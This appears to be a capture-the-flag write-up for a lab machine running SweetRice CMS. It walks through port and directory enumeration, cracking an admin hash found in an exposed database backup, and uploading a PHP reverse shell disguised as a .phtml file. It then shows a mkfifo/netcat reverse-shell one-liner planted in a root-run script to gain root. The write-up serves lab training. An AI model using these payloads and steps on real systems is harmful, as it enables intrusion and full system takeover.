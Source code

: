 ## Target IP: `10.10.106.229`

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O 10.10.71.138 -oN results.txt
```

**Open Ports:**

| Port | Service |
| --- | --- |
| 22 | SSH |
| 80 | HTTP |

---

### Web Enumeration

- HTTP server is a default Apache2 page.
- Ran initial directory brute-force:

```bash
gobuster dir -u http://10.10.71.138 -w /usr/share/dirb/wordlists/common.txt
```

- Found: `/content`
- Ran a deeper scan on that directory:

```bash
gobuster dir -u http://10.10.71.138/content -w /usr/share/dirb/wordlists/common.txt
```

- Potential larger wordlist for future reference:

```bash
gobuster dir -u http://10.10.71.138/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Found Directories:**

- `/content/_themes` – empty
- `/content/as` – SweetRice login page
- `/content/attachment` – initially empty
- `/content/images`
- `/content/js`
- `/content/inc` – contains `mysql_backup` folder

---

### Credentials Discovery

- Downloaded file from `/content/inc/mysql_backup`
- Found:

```
admin: manager
42f749ade7f9e195bf475f37a44cafcb
```

- Used CrackStation to identify the hash as **MD5**
- Password: `[REDACTED]`

---

### Web Shell Upload

- Logged into SweetRice at `/content/as` with:

```
Username: admin
Password: [REDACTED]
```

- Found a section to add a post and upload an attachment.
- Used **PHP reverse shell** from Pentestmonkey GitHub.
- Edited reverse shell to point to attacker's IP and port.
- Renamed to `reverse_shell.phtml` to bypass `.php` filters.
- Started a Netcat listener:

```bash
nc -lvnp 8888
```

**Netcat Flags:**

| Flag | Description |
| --- | --- |
| -l | Listen for connection |
| -v | Verbose output |
| -n | Don't resolve DNS |
| -p | Port to listen on |
- Accessed the uploaded file via `/content/attachment/reverse_shell.phtml`
- Got a shell connection.

---

### Shell Stabilization

- Initial shell was unstable. Upgraded it using Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

**What This Does:**

- `pty.spawn("/bin/bash")`: Spawns a pseudo-terminal.
- `CTRL+Z`: Suspends current session.
- `stty raw -echo`: Sets terminal mode so input behaves properly.
- `fg`: Brings suspended shell to foreground.
- `export TERM=xterm`: Sets proper terminal type for full shell functionality.

---

### User Flag

- Navigated to `/home/itguy`
- Found and read `user.txt`

---

### Privilege Escalation

- Checked sudo permissions:

```bash
sudo -l
```

**Output:**

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

- Listed file permissions:

```bash
ls -al
```

- Read the contents of `backup.pl`:

```bash
cat backup.pl
```

**Contents:**

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

- `backup.pl` runs `/etc/copy.sh` using `sh`.

---

### Exploiting Perl Script

- Edited `/etc/copy.sh` with a reverse shell payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <HOST_IP> <HOST_LISTENING_PORT> >/tmp/f
```

**Note:** This was only possible because the shell was upgraded/stable. Editing with `nano` or similar wouldn’t work in a basic reverse shell.

- Started a second Netcat listener:

```bash
nc -lvnp 9999
```

- Ran the vulnerable Perl script:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

- Got an error message, but checked listener—shell was successful.

```bash
whoami
```

- Confirmed: `root`
- Navigated to `/root` and read `root.txt`
